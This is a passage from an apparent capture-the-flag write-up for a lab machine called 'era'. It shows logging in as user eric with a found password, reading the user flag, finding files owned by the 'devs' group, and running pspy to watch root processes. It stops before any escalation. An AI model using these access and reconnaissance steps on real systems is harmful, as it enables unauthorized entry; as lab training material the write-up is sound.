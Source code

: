 ```bash
yuri@era:~$ ls /home
eric  yuri
yuri@era:~$ ls /home/eric
ls: cannot open directory '/home/eric': Permission denied
yuri@era:~$ su eric
Password: america

eric@era:/home/yuri$ cd ~
eric@era:~$ ls
user.txt
eric@era:~$ cat user.txt
5b87cb9bbf09bbac226e02ba80830225
```

### Privilege Escalation to Root

we can see using `id` that eric is in the group `devs`.
```bash
eric@era:~$ id
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)
```

when we search for files in this group using `find`, these are the files we get:
```bash
eric@era:~$ find / -group devs 2>/dev/null  
/opt/AV
/opt/AV/periodic-checks
/opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/status.log
```

We can see the `monitor`, which is owned by `root`.
I uploaded `pspy`, and then executed to see which processes are running:

![pspy result](image-14.png) 
